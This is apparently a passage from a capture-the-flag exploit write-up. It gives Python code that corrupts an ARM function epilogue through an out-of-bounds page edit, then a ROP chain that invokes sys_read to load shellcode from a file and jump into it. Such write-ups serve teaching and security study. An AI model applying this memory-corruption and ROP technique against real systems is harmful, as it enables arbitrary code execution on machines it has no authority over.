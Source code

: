 ```python
font, content = "AAAA", "BBBB"

pause()
'''
This changes the function epilogue from:

ROM:00056AB8 84 D0 8D E2                 ADD             SP, SP, #0x84 ; Rd = Op1 + Op2
ROM:00056ABC 30 80 BD E8                 LDMFD           SP!, {R4,R5,PC} ; Load Block from Memory

to:

   0x440064c:   andeq   r0, r0, r0
   0x4400650:   ldmfd   sp!, {pc}

This way we get a nice buffer overflow :)
'''

edit_page(1, -292, (font, content), "\x00"*4)
```

So after running this, the read function will not restore the stack frame and directly pop PC from our buffer.

Next is to create a ROP chain to load arbitrary shellcode. This is what I used:

```
sc_size = 0x400
ropchain = [
    0x440f2a8 , # : pop {r0,  lr} ; bx lr
    0,          # this is to force r3 = 0 below, but also sys_read!
    0x440e7d0,  # pop {r1, r2, lr} ; mul r3, r2, r0 ; sub r1, r1, r3 ; bx lr
    list_help,  
    sc_size,      # read 0x400 bytes. Arbitrary number
    0x440000c, # svc #0 ; pop {r4, r5, r6, r7, r8, sb, sl, fp, ip, pc}
    0x41414141,  # r4
    0x41414141,  # r5
    0x41414141,  # r6
    0x41414141,  # r7
    0x41414141,  # r8
    0x41414141,  # sb
    0x41414141,  # sl
    0x41414141,  # fp
    0x41414141,  # ip
    list_help,  # pc = return into list_help
]

payload = "".join([p32(i) for i in ropchain])
assert len(ropchain) < 128

x.sendline(payload)

sc = open("sc.bin", "rb").read()
x.send(sc.ljust(sc_size, "\x00"))
```
